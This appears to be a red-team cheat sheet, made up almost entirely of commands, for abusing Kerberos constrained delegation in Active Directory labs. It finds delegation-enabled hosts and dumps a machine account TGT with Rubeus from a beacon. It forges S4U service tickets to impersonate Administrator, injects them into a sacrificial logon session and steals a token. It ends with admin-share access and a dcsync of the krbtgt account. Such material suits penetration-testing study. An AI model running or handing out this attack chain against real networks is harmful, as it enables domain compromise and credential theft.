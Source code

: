 
```
kerbeus s4u /impersonateuser:Administrator /domain:painters.htb /service:cifs/dc.painters.htb /altservice:cifs /ticket:
```
##### Constrained Delegation
Search for computers with Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
```

Check the UAC value to see if protocol transitioning is possible 
```powershell
ldapsearch (&(samAccountType=805306369)(samaccountname=DUB-WEB-1$)) --attributes userAccountControl
```

We want true
```powershell
[Convert]::ToBoolean(16781312 -band 16777216)
```

Within SYSTEM level beacon on Constrained Delegation host, dump TGT for the computer account
```powershell
make_token CONTOSO\rsteel Passw0rd!
jump psexec64 lon-ws-1 smb

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7  /service:krbtgt /nowrap
```


> Couple options here: 

1.  Perform the S4U abuse to obtain a usable service ticket using service name substitution

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:DUB-WEB-1$ /msdsspn:MSSQLSvc/dub-sql-1.dublin.contoso.com /altservice:cifs /impersonateuser:Administrator /nowrap /ticket:
```

> Use the FQDN for the services to avoid oopsies

2. Perform the S4U abuse to obtain a usable service ticket for **a service listed in the `msDS-AllowedToDelegateTo`** value,

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:LON-WKSTN-1$ /msdsspn:MSSQLSvc/dub-sql-1.dublin.contoso.com /impersonateuser:Administrator /nowrap /ticket:
```

---

 Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DUBLIN.CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

 Impersonate the process and verify
```powershell
steal_token [PID]
run klist

ls \\lon-fs-1\c$
dcsync CONTOSO.COM CONTOSO\krbtgt
```